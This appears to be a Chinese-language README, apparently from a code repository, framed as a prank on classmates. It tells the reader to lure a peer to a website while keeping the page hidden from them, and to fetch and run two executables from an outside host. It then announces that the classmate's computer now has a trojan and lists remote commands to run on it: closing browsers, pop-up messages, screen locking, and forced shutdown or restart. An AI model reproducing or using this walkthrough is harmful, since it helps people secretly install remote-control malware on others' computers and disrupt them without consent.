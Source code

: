# 让同伴打开以下网站：

https://b.helloosme.eu.org/

别把这个页面暴露给了同伴！！！

点击“激活方法”，你将作为同伴的同伴，下载两个程序：

https://osfiles.pages.dev/register.exe

https://osfiles.pages.dev/showmsg.exe

打开`此电脑`，`C:\`，`Users`文件夹或`用户`文件夹，`Lenovo`文件夹，`下载`文件夹或`Downloads`文件夹;

打开`register.exe`，记住一定要先打开

# 很好，你做到了！
同学电脑成功被你植入了木马，现在在那个register.exe窗口里输入以下命令玩玩同学吧（

以下命令将远程执行在同学电脑上！！！

关闭chrome浏览器(谷歌浏览器)【推荐执行这个命令】
```
taskkill -f -im chrome.exe
```
弹窗
```
msg [消息]
```
锁屏
```
lock
```
关机
```
shutdown -s -t [时间，单位为秒，至少为60]
```
重启
```
shutdown -r -t [时间，单位为秒，至少为60]
```
取消关机/重启:
```
shutdown -a
```
关闭edge浏览器
```
taskkill -f -im msedge.exe
```
